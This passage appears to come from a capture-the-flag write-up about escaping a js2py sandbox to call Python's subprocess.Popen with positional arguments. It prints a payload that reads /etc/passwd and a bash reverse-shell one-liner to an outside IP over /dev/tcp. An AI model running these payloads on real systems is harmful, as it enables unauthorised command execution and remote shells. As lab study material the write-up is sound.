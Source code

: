 When you call it from inside `js2py`, you don’t get keyword arguments like in normal Python. If you try to pass a JS object `{stdout: -1}` hoping it turns into a kwarg, it actually just becomes the second positional argument. That’s why I hit the error **“bufsize must be an integer”** — because I had accidentally passed a dictionary where `Popen` was expecting an integer.

The fix was to pass everything positionally up to the argument I cared about. So instead of trying to pass `stdout=-1` by keyword, I passed:

```js
["/bin/sh","-c","cat /etc/passwd"], 0, null, null, -1
```

* `["/bin/sh","-c","cat /etc/passwd"]` → my command
* `0` → `bufsize`
* `null` → `executable`
* `null` → `stdin`
* `-1` → `stdout` (which is what `subprocess.PIPE` maps to internally)

That finally gave me a valid `Popen` object. Then calling:

```js
.communicate()[0].decode()
```

let me capture and convert the output from bytes into a readable string.

So the short version is: the original failure came from trying to use keyword arguments in a context (`js2py → Python bridge`) where they don’t work. By carefully lining up the positional args from the Python signature and watching the error messages, I figured out exactly which value was landing in the wrong slot, and corrected it.

# Shell
To get a reverse shell I had to tweak a bit more (with explanation):
`n11 = findpopen(obj)("bash -c 'bash -i >& /dev/tcp/10.10.16.8/7777 0>&1'", -1, null, -1, -1, -1, null, null, true).communicate()[0].decode()`


Key differences:

**bufsize = -1 → default buffering**

**stdout = -1, stderr = -1 → captured properly**

**shell = true (the last argument)**

By passing shell=True, Python runs your string through the shell, so bash -c 'bash -i >& /dev/tcp/…' is interpreted correctly.

All the file descriptors (-1) make sure Python captures stdout/stderr so communicate() doesn’t break.

TL;DR

The first payload failed because shell=False (default) and you passed a string command with redirection. Python didn’t interpret >& /dev/tcp/... as shell syntax.

The second payload worked because you explicitly set shell=True at the end, letting the shell interpret your string command.
